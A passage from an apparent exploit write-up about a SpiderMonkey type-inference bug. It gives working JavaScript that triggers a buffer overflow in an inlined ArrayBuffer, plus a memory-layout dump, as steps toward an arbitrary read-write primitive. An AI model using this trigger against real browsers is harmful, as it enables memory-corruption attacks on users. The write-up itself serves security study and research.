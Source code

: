 Now all we have to do is convert a buffer overflow to an arbitrary read-write primitive. This overflow is in the buffer of the `ArrayBuffer`. Now if the buffer is small enough (I think < 96 bytes, not sure though), then this buffer is inlined, or in other words, lies exactly after the metadata of the `ArrayBuffer` class. First lets take a look at the code that can achieve this overflow.

```js

buf = []
for(var i=0;i<100;i++)
{
  buf.push(new ArrayBuffer(0x20));
}

var abuf = buf[5];

var e = new Uint32Array(abuf);
const arr = [e, e, e, e, e];

function vuln(a1) {

    if (arr.length == 0) {
        arr[3] = e;
    }

    /*

    If the length of the array becomes zero then we set the third element of
    the array thus converting it into a sparse array without changing the
    type of the array elements. Thus spidermonkey's Type Inference System does
    not insert a type barrier.

    */

    const v11 = arr.pop();
    v11[a1] = 0x80
    for (let v15 = 0; v15 < 100000; v15++) {}
}

p = [new Uint8Array(abuf), e, e];
arr.__proto__ = p;

for (let v31 = 0; v31 < 2000; v31++) {
    vuln(18);
}

```

`buf` is an array of `ArrayBuffer`, each of size 0x20. In the memory, all these allocated `ArrayBuffer` will lie consecutively. Here is how they will be -

```

                  +-> group                +->shape
                  |                        |
0x7f8e13a88280:  0x00007f8e13a798e0  0x00007f8e13aa1768

                  +-> slots                +->elements (Empty in this case)
                  |                        |
0x7f8e13a88290:  0x0000000000000000  0x000055d6ee8ead80

                  +-> Shifted pointer
                  |   pointing to          +-> size in bytes of the data buffer
                  |   data buffer          |
0x7f8e13a882a0:  0x00003fc709d44160  0xfff8800000000020

```